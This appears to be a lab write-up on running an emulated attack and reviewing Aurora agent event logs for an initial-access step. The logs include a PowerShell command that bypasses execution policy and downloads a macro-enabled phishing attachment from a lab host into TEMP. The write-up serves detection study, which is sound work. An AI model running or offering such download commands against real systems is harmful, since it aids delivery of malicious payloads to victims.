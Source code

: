Rerun the operation and wait till it finishes, then review the logs. If you prefer to run abilities individually and review their logs. Create a new operation and check **Pause on Start.** Then run the operation by clicking on **Run 1 Link, w**hich will run one ability and pause when it finishes

<img width="1122" height="643" alt="image" src="https://github.com/user-attachments/assets/cf1ead66-4656-4da3-aeec-2b52575fe762" />

If Aurora logs are not showing, check the expiration time; if it has expired, change the machine time. Then restart it from **services.msc**

<img width="944" height="692" alt="image" src="https://github.com/user-attachments/assets/0b87f3e6-8d90-47f2-87e8-5115a4db3d08" />

Machine time after I change it.

<img width="560" height="399" alt="image" src="https://github.com/user-attachments/assets/84d3f243-594f-4c16-a74c-4e533e0299d6" />

Check List of [EventID-AuroraAgent](https://aurora-agent-manual.nextron-systems.com/en/latest/usage/event-id-list.html)

### Initial Access: Download Macro-Enabled Phishing Attachment

EventID: 1

```
 RuleName - 
  UtcTime 2025-03-31 10:51:46.187 
  ProcessId 1012 
  Image C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
  Company Microsoft Corporation 
  OriginalFileName PowerShell.EXE 
  CommandLine powershell.exe -ExecutionPolicy Bypass -C "$url = 'http://10.10.39.5:8080/PhishingAttachment.xlsm'; Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm" 
  ParentProcessId 5464 

```

File Create EventID 11

```
UtcTime 2025-03-31 10:51:46.493 
  ProcessGuid {c5d2b969-73c2-67ea-4501-000000002901} 
  ProcessId 1012 
  Image C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
  TargetFilename C:\Users\Administrator\AppData\Local\Temp\2\PhishingAttachment.xlsm 
  CreationUtcTime 2025-08-08 09:14:32.351 
```

Network Connection Detection: EventID 3

```
 RuleName Proxy 
  UtcTime 2025-08-24 10:52:24.435 
  ProcessId 1012 
  Image <unknown process> 
  User - 
  Protocol tcp 
  Initiated true 
  SourceIsIpv6 false 
  SourceIp 10.10.4.48 
  SourceHostname VICTIM.eu-west-1.compute.internal 
  SourcePort 49974 
  SourcePortName - 
  DestinationIsIpv6 false 
  DestinationIp 10.10.39.5 
  DestinationHostname ip-10-10-39-5.eu-west-1.compute.internal 
  DestinationPort 8080 
  DestinationPortName - 

```